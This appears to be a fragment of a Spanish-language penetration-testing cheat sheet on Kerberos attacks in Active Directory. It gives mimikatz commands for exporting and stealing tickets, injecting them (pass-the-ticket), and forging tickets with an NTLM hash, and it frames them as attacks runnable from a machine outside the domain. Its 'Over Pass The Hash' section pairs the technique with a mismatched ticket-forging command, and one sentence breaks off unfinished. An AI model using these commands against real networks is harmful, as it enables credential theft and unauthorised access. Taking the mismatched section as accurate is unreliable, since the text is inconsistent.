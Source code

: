 NOTA: No necesitamos acceso al AD ni descifrar el hash ntlm, incluso no es necesario ejecutar el comando en el servidor comprometido, dado que nosotros falsificaremos el TGS, por lo que podemos ejecutarlo en un windows que no este unido a dominio, solo se requiere conexión al servicio, que en este caso es **servidorweb.dominio.local** 

#### Pass the Ticket:
Robo de ticket tipo ST o TGT de un equipo ya autenticado en la red, para despues el ticket pasado al KDC o servicio para autenticarse.
```
kerberos::list (listar)
kerberos::list /export (listar y exportar)
kerberos::list /export /tgt
kerberos::list /export /service:service_name
```
Inyectar el ticket robado:
```
kerberos::ptt <ruta_al_ticket.kirbi>
```

#### Over Pass The Hash / Pass The Key:
Ataque basado en solicitar un TGT por medio del hash NTLM del usuario al KDC.

En este caso se puede dumpear el NTLM o obtenerse por reponder, para despues 

```
kerberos::golden /user:usuario /domain:dominio.local /sid:S-1-5-21-xxxxxxxxxx /rc4:hash_ntlm /target:servidor.dominio.local /ticket
```
NOTA: La ventaja de este ataque es que puedes ejecutar mimikatz desde una VM que no esta unida a dominio, solo necesitas alcanzar al AD para que sí esta mal configurado puedas pedir TGT.



























